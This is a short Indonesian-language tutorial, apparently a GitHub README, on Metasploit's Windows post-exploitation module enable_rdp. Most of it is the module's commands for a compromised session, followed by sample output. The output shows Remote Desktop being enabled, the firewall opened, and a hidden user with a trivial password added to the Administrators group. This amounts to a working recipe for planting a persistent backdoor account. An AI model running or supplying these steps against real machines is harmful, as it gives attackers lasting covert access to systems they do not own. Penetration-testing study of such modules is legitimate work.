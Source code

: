 # enable_rdp

Modul `enable_rdp` di Metasploit adalah modul `post-exploitation` untuk sistem Windows yang digunakan untuk mengaktifkan fitur Remote Desktop Protocol (RDP) pada komputer target.

## Cara Penggunaan di Metasploit

```
use post/windows/manage/enable_rdp
set ENABLE true
set FORWARD false
set LPORT 3389
set SESSION <ID>
set VERBOSE true
run
```

Hasil output-nya seperti ini:

```
[*] Enabling Remote Desktop
[*] 	RDP is already enabled
[*] Setting Terminal Services service startup mode
[*] 	Terminal Services service is already set to auto
[*] 	Opening port in local firewall if necessary
[*] Setting user account for logon
[*] 	Adding User: fixploit03 with Password: fixploit03
[*] 	Adding User: fixploit03 to local group 'Remote Desktop Users'
[*] 	Hiding user from Windows Login screen
[*] 	Adding User: fixploit03 to local group 'Administrators'
[*] You can now login with the created user
[*] For cleanup execute Meterpreter resource file: /root/.msf4/loot/20250516221529_default_192.168.1.52_host.windows.cle_571851.txt
[*] Post module execution completed
```
